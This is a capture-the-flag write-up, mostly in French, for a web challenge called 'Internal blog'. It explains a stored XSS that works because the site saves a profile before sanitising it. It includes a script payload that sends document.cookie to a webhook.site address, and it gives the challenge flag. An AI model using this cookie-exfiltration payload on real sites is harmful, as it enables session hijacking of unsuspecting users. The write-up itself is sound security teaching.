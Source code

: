 # Internal blog

**Web**

You’ve received an anonymous tip from the Airship Mail Delivery Company claiming that a seemingly legitimate website is actually a front for trading stolen submarine mechanical parts. Yeah, that’s oddly specific...

The localhost port is 3000. Take a closer look and see if you can uncover anything suspicious. The flag to find is the bot's cookie.

---

## Préambule

En arrivant sur le site, bien que nous n'ayons pas de source; on peut avoir une partie du code source grâce à un leak.

![image](_attachements/S1.png)

On peut voir dans cette source, tout en haut, que le profil est sauvegardé avant le check de sanitize.
Si le sanitize fail, le profil est donc quand même sauvegardé.

## Tests

On va donc se créer un profil en essayant de partout de faire des injections, voir ce qui passe.

![image](_attachements/Pasted_image_20250126214535.png)

Après la création de ce profil, qui va "échouer", on peut quand même aller à l'URL du profil pour le consulter, puisqu'il a été sauvegardé.

On voit sur cette URL que le champ Name n'est pas sanitized, on va donc pouvoir mettre une balise script à l'intérieur afin de récupérer les cookies des utilisateurs qui consultent ce profil.

![image](_attachements/Pasted_image_20250126214959.png)

On utilise https://webhook.site/ pour se créer un point de webhook pour pouvoir récupérer les cookies.

On créé le script suivant :
```html
<script>document.location = "https://webhook.site/2779f411-a895-496e-9525-803b72e50737/" + document.cookie</script>
```
...qu'on rentre dans le champ name

Il faut ensuite que l'admin vienne voir notre page. Pour cela, comme indiqué sur la page d'accueil, il nous suffit de créer un article.

![image](_attachements/Pasted_image_20250126215824.png)

Après avoir créé l'article, on voit dans notre webhook qu'on a reçu une requête

![image](_attachements/Pasted_image_20250126220031.png)

**Flag : HACKDAY{0rd3R_M4tteRs_In_Ur_C0d3!!!!}**

nhy.
